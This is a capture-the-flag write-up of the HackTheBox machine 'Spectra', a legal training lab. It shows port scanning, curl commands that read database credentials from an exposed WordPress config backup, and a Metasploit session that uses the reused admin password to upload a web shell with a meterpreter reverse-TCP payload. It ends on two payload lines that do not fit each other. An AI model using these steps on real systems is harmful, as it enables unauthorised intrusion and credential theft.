 ```yaml
---
layout: post
title: HackTheBox Write-up &mdash; Spectra
---
```


This machine has IP 10.10.10.229.

Let's enumerate the open ports:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 17:30 NZST
Nmap scan report for spectra (10.10.10.229)
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.37 seconds
```

I go to the HTTP port on my browser and get:
```
Issue Tracking
Until IT set up the Jira we can configure and use this for issue tracking.
Software Issue Tracker
Test
```

The `Software Issue Tracker` and `Test` are both hyperlinks.

Clicking on `Software Issue Tracker takes us to `http://spectra.htb/main/index.php`.  This site seems to be hosted on WordPress.  `Test` takes us to `http://spectra.htb/testing/index.php`, but when clicking on this we get `Error establishing a database connection`.  Running `ffuf` on this `/testing` subdomain we find some interesting files:
```
wp-admin                [Status: 301, Size: 169, Words: 5, Lines: 8]
wp-content              [Status: 301, Size: 169, Words: 5, Lines: 8]
wp-includes             [Status: 301, Size: 169, Words: 5, Lines: 8]
```

We can also go directly to the `/testing` subdomain and see a bunch of files available to us (as well as the aforementioned sub-subdomains).  It looks like most of these are unavailable to us, but some of them are not, such as the `wp-config.php.save` file:
```bash
$ curl --silent http://spectra.htb/testing/wp-config.php.save | grep -i 'user' | grep -v '^\/\*'
define( 'DB_USER', 'devtest' );
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.

$ curl --silent http://spectra.htb/testing/wp-config.php.save | grep -i 'pass' | grep -v '^\/\*'
define( 'DB_PASSWORD', 'devteam01' );
```

So we may have a password and username to use...  We explore the `/main` domain, and find `http://spectra.htb/main/wp-login.php`.  I try the password and username here, but it doesn't work, unfortunately.  However, I recall that the first `Hello World` post on `/main` is written by user `administrator`, so I try that with the password we found, and this works!  Now we are taken to `http://spectra.htb/main/wp-admin/`.  I go to the `All Users` link at `/users.php` and we see this one user (`administrator`), whose email is `devteam@megabank.local`.

I go to `msfconsole` and search `wp admin` (because I have access to wordpress as an admin):
```
msf6 > search wp admin

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
.........
   10  exploit/unix/webapp/wp_admin_shell_upload                 2015-02-21       excellent  Yes    WordPress Admin Shell Upload
.........

Interact with a module by name or index. For example info 23, use 23 or use exploit/unix/webapp/wp_wysija_newsletters_upload

msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD 'devteam01'
PASSWORD => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME 'administrator'
USERNAME => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS '10.10.10.229'
RHOSTS => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST '10.10.14.239'
LHOST => 10.10.14.239
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST 'spectra.htb'
VHOST => spectra.htb
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI '/main'
TARGETURI => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set target 0
target => 0
```

This kept failing.  I mean, the exploit kept working, but no reverse shell from it.  However, after much Googling, I found that I needed to manually configure the payload, because it wasn't enough.

set PAYLOAD osx/x64/meterpreter_reverse_tcp
set PAYLOAD osx/x86/isight/bind_tcp